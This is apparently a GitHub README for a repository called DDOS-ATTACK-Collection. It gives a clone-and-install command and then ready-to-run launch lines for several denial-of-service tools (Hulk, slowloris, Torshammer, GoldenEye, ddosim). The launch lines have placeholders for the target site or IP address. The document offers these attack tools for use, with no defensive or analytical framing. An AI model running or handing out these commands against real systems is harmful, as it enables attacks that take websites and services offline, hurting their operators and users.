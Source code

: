 # DDOS-ATTACK-Collection
## First Thanks For All Author Scrypt Gos Blase Ouer, And For More Info About Tools Please Red The REDME.ME in our Tools

## For Download ald Setup Tool Copy the Command :-
**sudo git clone https://github.com/4lT4lR/DDOS-ATTACK-LINUX.git && cd DDOS-ATTACK-LINUX && pip install -r requirements.txt**

## Hulk-ATTACK :- 
**cd hulk && chmod +x * && python2 hulk.py YOUR_SITE_ATTACK**


## slowloris-ATTACK :- 
**cd slowloris && chmod +x * && python2 setup.py && python2 slowloris.py**

## Torshammer-ATTACK :-
**cd Torshammer && chmod +x * && python torshammer.py -t IP_TARGET  -r NUMBER_THRED -T**

## GoldenEye
**cd GoldenEye && chmod +x * && ./goldeneye.py url OPTIONS**

## ddosim-0.2
**cd ddosim-0.2 && chmod +x * && ./configure && make && make install && ./ddosim IP_TARGET**

